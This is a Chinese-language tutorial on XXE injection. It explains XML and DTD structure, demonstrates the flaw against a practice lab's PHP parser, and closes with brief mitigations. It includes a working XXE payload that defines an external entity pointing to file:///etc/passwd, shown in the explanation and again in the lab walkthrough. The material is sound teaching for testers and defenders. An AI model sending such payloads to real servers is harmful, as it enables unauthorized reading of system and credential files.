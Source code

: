 # XXE漏洞

## 1、XXE漏洞概述-XML外部实体注入攻击

![image-20210104113810510](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104113810510.png)

```text
XXE -"xml external entity injection"
既"xml外部实体注入漏洞"。
概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"
也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

具体的关于xml实体的介绍,网络上有很多,自己动手先查一下。
现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。
以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。

本章提供的案例中,为了模拟漏洞,通过手动指定LIBXML_NOENT选项开启了xml外部实体解析。
```

## 2、什么是XML-可扩展标记语言

具体xml是啥可以参考[xml教程](https://www.runoob.com/xml/xml-usage.html)

XML分为三部分：XML声明、DTD文档约束（XXE漏洞出问题的地方）、文档元素

```markup
<!-- xml声明-->
<?xml version="1.0" encoding="UTF-8"?>

<!-- 文档类型定义DTD: xxe出问题的地方-->
<!-- 1.DTD内部引用-->
<!DOCTYPE  根元素 [元素说明]>
<!-- 2.DTD外部引用-->
<!DOCTYPE 根元素名称 SYSTEM "外部DTD的URI">
<!-- 3.引用公共DTD-->
<!DOCTYPE 根元素名称 PUBLIC "DTD标志名" "公用DTD的URI">


<!-- 文档元素：真正的数据部分-->
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

![image-20210104113947422](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104113947422.png)

![image-20210104125922980](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104125922980.png)

会导致XXE漏洞的就是外部实体，下面看一个例子:引用外部实体构造读取/etc/passwd的payload

```markup
<?xml version="1.0"?> //这是一个声明
<!DOCTYPE ANY [       //DTD定义文档的类型any
    <!ENTITY f SYSTEM "file:///etc/passwd">  
//约束这里定义了一个外部实体，用system这个关键字来指定外部实体，然后用file来读取文件，把文件的内容赋值给f
]>
<x>&f;</x>  //通过读取x标签里面的f就可以读取etc/passwd里面的内容
```

![image-20210104130106302](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104130106302.png)

## 3、案列解读

php里simplexml\_load\_string\(\)是将xml文档转换成SimpleXMLElement对象，php里解析xml用的是libxml库，而libxml在2.9.0版本之后是默认禁止解析xml外部实体内容的，所以后面的版本默认不会有xxe漏洞的。

![image-20210104131233108](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104131233108.png)

## 4、靶场演练

结合靶场中的源码审计，这里的意思是读取到xml文档数据就在`<pre>`标签里输出，读取不到xml或者读的xml格式错误就返回"XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?"。

![image-20210104132242986](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104132242986.png)

这里是一个正常的XML，我们来测试一下。

![image-20210104132455205](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104132455205.png)

把下面这串代码，提交，看看返回结果~

```markup
<?xml version="1.0"?> 
<!DOCTYPE note [       
    <!ENTITY hacker "Harveysn0w">  
]>
<name>&hacker;</name>
```

![image-20210104132823931](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104132823931.png)

这里直接把变量hacker里面的值返回出来了。

那么接下面我们通过DTD去定义一个外部实体。我们使用下面的payload

```markup
<?xml version="1.0"?> 
<!DOCTYPE ANY [       
    <!ENTITY f SYSTEM "file:///etc/passwd">  
]>
<x>&f;</x>
```

![image-20210104133215276](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104133215276.png)

我们可以看到，这里直接把我们外部实体传入的文件给读取出来了。

## 5、防范措施

不要-开启了外部实体解析

需要-对传过来的数据做任何过滤

